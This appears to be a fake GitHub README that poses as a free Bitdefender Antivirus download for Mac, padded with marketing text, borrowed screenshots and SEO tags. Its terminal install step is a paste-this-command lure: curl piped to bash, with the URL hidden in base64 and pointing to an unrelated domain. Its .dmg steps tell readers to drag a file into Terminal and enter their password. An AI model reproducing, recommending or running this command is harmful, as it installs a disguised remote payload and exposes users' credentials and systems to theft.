 # Bitdefender Antivirus — Free Download For Mac OS

Bitdefender Antivirus for Mac offers top-tier protection against malware, ransomware, and online threats. Follow the instructions below to securely download and install it on your Mac. 🛡️

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/bitdefender)

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Bitdefender Antivirus For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🛡️ **Real-Time Threat Protection**: Bitdefender continuously scans for malware, viruses, and ransomware to keep your Mac secure.
- 🌐 **Web Protection**: Safeguards your browsing by blocking phishing sites and malicious links in real time.
- 🔒 **Ransomware Defense**: Protects your files from unauthorized encryption with advanced ransomware remediation.
- ⚡ **Lightweight Performance**: Runs efficiently without slowing down your Mac, even during intensive scans.
- 🕒 **Automatic Updates**: Keeps your antivirus up-to-date with the latest threat definitions for uninterrupted protection.
- 🔐 **Secure VPN Option**: Includes an optional VPN for private browsing (subscription may be required).

## About Bitdefender Antivirus

Bitdefender Antivirus for Mac is a leading cybersecurity solution designed specifically for macOS users. With its advanced threat detection algorithms, it ensures your Mac is protected from viruses, malware, spyware, and other online threats. Whether you're browsing the web, downloading files, or accessing sensitive data, Bitdefender provides a seamless and secure experience. Its intuitive interface makes it easy for users of all levels to manage their security settings, while its lightweight design ensures minimal impact on system performance. By incorporating cutting-edge technology, Bitdefender remains a trusted name in antivirus software.

One of the standout features of Bitdefender Antivirus is its real-time protection. The software actively monitors your system for suspicious activity, instantly neutralizing threats before they can cause harm. This is particularly important for Mac users who may encounter phishing attacks or malicious downloads. With Bitdefender, you can confidently browse the internet knowing that harmful websites and links are blocked automatically. The software’s web protection module is optimized to work with all major browsers, ensuring compatibility and ease of use.

For those concerned about ransomware, Bitdefender offers robust defense mechanisms. Its ransomware remediation feature ensures that your files remain safe from unauthorized encryption attempts. In the event of an attack, Bitdefender can restore affected files, minimizing data loss. This feature is critical in today’s digital landscape, where ransomware attacks are becoming increasingly sophisticated. By choosing Bitdefender, you’re investing in a solution that prioritizes both prevention and recovery.

Bitdefender’s automatic update system keeps your software equipped with the latest threat definitions, so you’re always protected against emerging threats. Unlike some antivirus programs that require manual updates, Bitdefender handles this process in the background, ensuring uninterrupted security. Additionally, the software’s efficient design means it won’t bog down your Mac, even during full system scans. This balance of performance and protection makes Bitdefender a top choice for macOS users.

### Why Choose Bitdefender?

Bitdefender Antivirus for Mac stands out due to its combination of powerful protection, user-friendly design, and minimal system impact. Unlike other antivirus solutions, Bitdefender is tailored specifically for macOS, ensuring compatibility with the latest Mac operating systems. Its proactive approach to threat detection, coupled with features like web protection and ransomware defense, makes it an essential tool for safeguarding your digital life. Whether you’re a casual user or a professional, Bitdefender delivers reliable, high-performance security without compromising usability.

## 🖼 Preview

![Main Dashboard](https://i.ytimg.com/vi/B_PE-YSWkm0/maxresdefault.jpg)
*Bitdefender’s sleek and intuitive dashboard for managing scans and settings*

![Web Protection](https://www.bitdefender.de/media/uploads/2017/06/two-instances-22-1024x576.png)
*Real-time web protection blocking malicious sites*

![Scan Results](https://cdn.comparitech.com/wp-content/uploads/2024/09/Protection_Antivirus_Menu.jpg)
*Detailed scan results showing detected threats*

## 🔍 Tags

Bitdefender Antivirus, Mac antivirus, bitdefender total security, bitdefender antivirus plus, bitdefender internet security, bitdefenderdownload, bitdefender for mac, bitdefender antivirus for mac, bit defender mac, antivirus bit defender, bitdefender antivirus download, bitdefender antivirus free download, bitdefender antivirus download mac, bitdefender antivirus free mac
